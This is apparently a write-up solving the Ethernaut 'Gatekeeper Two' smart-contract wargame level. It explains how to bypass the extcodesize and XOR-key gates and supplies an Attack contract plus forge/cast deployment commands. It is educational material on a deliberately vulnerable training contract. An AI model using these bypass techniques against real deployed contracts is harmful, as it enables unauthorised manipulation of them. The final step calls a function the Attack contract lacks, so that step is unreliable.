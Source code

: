 ## Gatekeeper Two Level Outline

**Difficulty : 6/10**

This gatekeeper introduces a few new challenges. Register as an entrant to pass this level.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0xdCeA38B2ce1768E1F409B6C65344E81F16bEc38d)

## Solution

To pass the first modifier `gateOne()`, the transaction needs to come from a smart contract.

To pass the second modifier `gateTwo()`, the assembly line `extcodesize(a)` checks the code size as address `a`. To bypass this check, we put our exploit code in the contracts constructor as the contracts code is only stored on the EVM after the constructor finishes calling and setting up it's state. So by calling our exploit in the constructor, `extcodesize` will return 0.

To pass the third modifier `gateThree()`, uses xor cipher to hide a key. But the xor operation has the property 

```
if,
A xor B = C
then,
A xor C = B


uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1
A = uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) 
B = uint64(_gateKey) 
C = uint64(0) - 1

so, 
uint64(_gateKey) = uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(0)-1
```

### Walkthrough

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Attack {
    constructor(address _gateKeeper) {
        GateKeeper gateKeeper = GateKeeper(_gateKeeper);
        bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ (type(uint64)).max);
        gateKeeper.enter(key);
    }
}

interface GateKeeper {
   function enter(bytes8) external returns(bool);
}
```
> notice how we replaced 'uint64(0)-1' with type(uint64).max

##### 2. 

```console
forge create src/Contract.sol:Attack --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

##### 3. Call our newly deployed contract 
```console
cast send $DEPLOYED_ADDRESS "enter()" --private-key=$PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

## Further Reading
[0xSage's write up on this level](https://medium.com/coinmonks/ethernaut-lvl-14-gatekeeper-2-walkthrough-how-contracts-initialize-and-how-to-do-bitwise-ddac8ad4f0fd) goes into more depth on these topics


#### [:arrow_left: Back To Main Menu](../README.md)
